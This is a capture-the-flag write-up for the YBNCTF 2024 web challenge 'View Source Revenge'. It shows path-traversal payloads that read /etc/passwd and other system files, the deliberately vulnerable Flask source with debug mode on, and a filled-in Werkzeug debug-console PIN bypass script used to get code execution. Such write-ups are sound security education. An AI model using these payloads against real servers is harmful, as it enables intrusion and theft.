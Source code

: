 ```yaml
---
title: View Source Revenge
date: 2024-11-30
tags: 
- web
- flask
- author-hartmannsyg
categories: YBNCTF 2024
---
```


solved by {% person hartmannsyg %} (with help from {% person fs %})

> It seems that Baba introduced a critical bug the last time he created this website. Dont worry though, he's fixed everything this time, at least that's what he says. I'm sure there's nothing else wrong with his website, right?
> https://view-source-revenge-viewsourcerevenge-chall.ybn.sg/

## First attempts

So we are given a website that just *reeks* of LFI (Local File Inclusion):

![](../../static/YBNCTF2024/view-source-revenge-0.png)

When I tried `flag.txt` we get an empty code box which seems kinda sus:

```

```

I then tried the usual `../../../../etc/passwd`, and got it:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
very_secure_username:x:1000:1000::/home/very_secure_username:/bin/sh
```

there was a user called `very_secure_username` which was interesting, but still nothing much

## Error

While doing the `etc/passwd` I randomly tried using a directory instead `../../../../etc/`

![](../../static/YBNCTF2024/view-source-revenge-1.png)

After trying other random things for a while I realized that we can use the console in debug mode - well nevermind:

![](../../static/YBNCTF2024/view-source-revenge-2.png)

I then managed to find `app.py` (which is `main.py`) and `Dockerfile` after a surprisingly long time (idk why I took so long to guess)

<details>
<summary>Source Code</summary>
{% ccb caption:main.py lang:py url:https://view-source-revenge-viewsourcerevenge-chall.ybn.sg/view?file_name=main.py gutter1:1-31 %}
# Run by Docker

from flask import Flask, request, render_template , redirect, url_for,render_template_string
import os 
app = Flask(__name__)
FLAG = open('flag.txt').read()

@app.route('/')
def index():
    return render_template('index.html')
    
@app.route('/view', methods = ["GET"])
def view():
    file_name = request.args.get('file_name')
    if not file_name:
        return redirect(url_for('index'))
    
    file_path = os.path.join(os.getcwd(), file_name)
    
    if not os.path.exists(file_path):
        return render_template('error.html')
    
    with open(file_path, "r") as f:
        content = f.read()
    
    content = content.replace(FLAG, "")

    return render_template("display.html",content = content,file_name = file_name)

if __name__ == '__main__':
    app.run(debug = True)
{% endccb %}

{% ccb lang:docker gutter1:1-34 caption:Dockerfile url:https://view-source-revenge-viewsourcerevenge-chall.ybn.sg/view?file_name=Dockerfile %}
# Use an official Python runtime as a parent image
FROM python:3.11-slim

# Set the working directory in the container
WORKDIR /usr/src/app

# Copy the requirements file into the container
COPY requirements.txt ./

# Install any necessary dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Create a new user and group with a secure name
RUN useradd -m very_secure_username

# Change ownership of the working directory to the newly created user
RUN chown -R very_secure_username:very_secure_username /usr/src/app

# Switch to the new user
USER very_secure_username

# Copy the application code into the container
COPY . /usr/src/app

# Set environment variables
ENV FLASK_APP=app.py
ENV FLASK_ENV=development
ENV FLASK_DEBUG=1

# Expose the port the app runs on
EXPOSE 5000

# Command to run the application
CMD ["flask", "run", "--host=0.0.0.0"]
{% endccb %}
</details>

## Debug Console Bypass

I found [this github page](https://github.com/wdahlenburg/werkzeug-debug-console-bypass) on how to bypass the debug console. They gave us a script, but we need to hunt around for some information:

1. Identify the user running the server

    From the Dockerfile we see it is `very_secure_username`

2. Find the path to Flask

    The path should look similar to `/usr/local/lib/python3.9/site-packages/flask/app.py`. Since the container is using python 3.11 we see that it is at `/usr/local/lib/python3.11/site-packages/flask/app.py`
3. Get the MAC Address of the interface the server is hosting on

    We can find it at `/sys/class/net/eth0/address` which gives:
    {% ccb %}
    92:17:84:22:97:05
    {% endccb %}
    They convert this into a number so we get 0x921784229705 which gives `160629698762501`
4. Now we need the `boot_id` + whatever is in "/proc/self/cgroup"`.strip().rpartition(b"/")[2]`

    The "/proc/self/cgroup" part just becomes nothing, so we get the boot id from `/proc/sys/kernel/random/boot_id`
    {% ccb %}
    90eca5f1-105b-434e-ad02-135111eb1526
    {% endccb %}

Putting it all together:

{% ccb gutter1:5-16 lang:py caption:bypass.py highlight:2,5,9,11 %}
probably_public_bits = [
	'very_secure_username',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.11/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'160629698762501',# str(uuid.getnode()), MAC
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'90eca5f1-105b-434e-ad02-135111eb1526'
]
{% endccb %}

We got a `Pin: 889-177-408`. Putting that into the console, we can simply print out the `FLAG`:

{% ccb %}
YBN24{F1@sK_DEBUg_CH4L1?_1AM3}
{% endccb %}